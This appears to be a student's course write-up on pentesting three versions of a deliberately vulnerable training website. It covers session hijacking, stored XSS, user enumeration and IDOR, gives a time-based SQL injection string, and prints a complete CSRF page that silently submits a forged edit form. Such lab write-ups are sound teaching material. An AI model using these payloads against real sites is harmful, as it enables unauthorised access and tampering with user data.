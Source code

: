 # Project 8 - Pentesting Live Targets

Time spent: **5** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: Session Hijacking  
<img src="https://i.imgur.com/BgMbnyD.gif" />  
* The session ID is found from the chrome developer tools console. 
* The attacker changes the session ID using the provided change_session_id.php.
* The attacker is now able to access the victims session.

Vulnerability #2: SQL Injection  
<img src="https://imgur.com/Ncl5PpK.gif" />  
* The exploit exists in the salesperson.php page.
* The exploit is done via the url. 
* Using the given ```' OR SLEEP(5)=0--'``` statement, the page proceeds to wait 5 seconds before returning.


## Green

Vulnerability #1: XSS  
<img src="https://imgur.com/lqWGbzu.gif"/>
* This exploit is done via the feedback section. 
* The XSS executes when a privileged user accesses the feedback page in the /staff/feedback/ section.


Vulnerability #2: User Enumeration  
<img src="https://imgur.com/RLLQAW8.gif"/>
* Using the given username "pperson" we can see that a valid username shows a bold error.
* An incorrect username shows a not-bolded error.

## Red

Vulnerability #1: CSRF  
<img src="https://imgur.com/zvBbKDo.gif"/>
* The attacker submits a malicious webpage into the feedback section.
* The victim visits the url from the feedback.
* The malicious webpage can be customized to silently submit a form to the edit section of the victims page.
``` 
<!DOCTYPE html>
		<html>
	<head>
		<title>Your Feedback</title>
		<script src="https://code.jquery.com/jquery-3.2.1.min.js"></script>
	</head>
	<body>

		<p> AYUSHYA AMITABH BACK AT IT BOIIS</p>
		<img src="https://i.kym-cdn.com/entries/icons/original/000/021/807/4d7.png" />
		<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=7" method="POST" class="hide-form" id="attackform"  name="form">
			<input type="text" name="first_name" value="Not Marshall" /><br />
			<input type="text" name="last_name" value="Not Mathers III" /><br />
			<input type="text" name="phone" value="111-222-3333" /><br />
			<input type="text" name="email" value="gottem@exploit.com" /><br />
			<button onclick="submit()">submit</button>
		</form>
		<script>
		function submit() {
			console.log("loaded");
			window.document.forms[0].submit(function(e) {


				console.log("submitted");
			});
		}
		</script>
</html>
```

Vulnerability #2: User Enumeration  
<img src="https://imgur.com/DAgdRCk.gif"/>
* By directly changing the 'id' parameter in the URL we can find salespersons not mentioned on the page.
* ID's 10 and 11 shouldn't be accessible by everyone. 
